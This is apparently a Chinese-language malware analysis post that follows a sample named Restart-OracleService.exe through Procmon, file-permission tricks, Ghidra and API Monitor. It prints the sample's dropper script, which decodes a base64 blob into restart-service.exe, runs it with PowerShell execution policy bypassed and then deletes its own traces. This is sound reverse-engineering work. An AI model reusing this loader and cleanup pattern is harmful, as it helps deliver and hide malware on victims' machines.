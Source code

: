 #### 使用Procmon64动态分析

[sysinternals](https://learn.microsoft.com/en-us/sysinternals/downloads/)

微软的`sysinternals`套件是一套用于进程监控，调试等功能的工具集合，这里用Procmon工具监控`Restart-OracleService.exe`运行时的行为

在过滤器中设置`Process Name-> contain-> OracleService`和>`Operation->cotains->Reg->Exclude`

![](https://images.geist-tech.top/PicList/20250805110018484.png)

可以看到创建了BAT文件并写入，但是实际去路径中看的时候发现什么都没有，通过修改Temp文件夹的权限，来禁止掉一切可能存在的删除操作，然后再执行exe文件

	右键->`properties`->->`Security`->admin用户->`advanced`->`disable inheritance`->`Convert to xxxx` 此时就可以编辑admin用户的权限了


![](https://images.geist-tech.top/PicList/20250805110858832.png)


重新执行一下exe文件，看到在Temp目录下bat文件被保存下来了，打开bat文件查看里面的内容，发现最开始判断了username，然后输出一堆的base64编码过的内容到`c:\programdata\oracle.txt`文件中，最后写了一个ps1脚本，逐行遍历`oracle.txt`文件，将内容base64解码并且调用IO操作，将解码后的raw写入`restart-service.exe`，powershell执行脚本之后再执行exe文件，之后删掉所有记录

```powershell
echo $salida = $null; $fichero = (Get-Content C:\ProgramData\oracle.txt) ; foreach ($linea in $fichero) {$salida += $linea }; $salida = $salida.Replace(" ",""); [System.IO.File]::WriteAllBytes("c:\programdata\restart-service.exe", [System.Convert]::FromBase64String($salida)) > c:\programdata\monta.ps1
powershell.exe -exec bypass -file c:\programdata\monta.ps1

powershell.exe -exec bypass -file c:\programdata\monta.ps1
del c:\programdata\monta.ps1
del c:\programdata\oracle.txt
c:\programdata\restart-service.exe
del c:\programdata\restart-service.exe
```

修改一下这个文件的内容，删掉一开始对于用户名的判断和最后的删除操作

```txt
goto correcto
goto error
```

如果一切正常就能在programdata下看到文件。

#### 逆向分析restart-service.exe

在ghidra打开之后提示`MinGW Relocations: MinGW pseudo-relocation list not found`，这是因为windows PE文件不支持ELF文件那样的PIC（位置无关代码）的方式进行重定位，所以wingw使用了伪重定位的方式来处理静态链接库和全局变量的位置问题。

直接在windows上用windows的分析工具分析，这里要在ghidra上修复这个问题再静态分析，太难搞

#### API Monitor

[API Monitor](http://www.rohitab.com/downloads)

API Monitor可以监控程序运行时和windows API的交互，以及函数，数据等，就像Linux中strace可以跟踪ELF程序运行时候的syscall一样
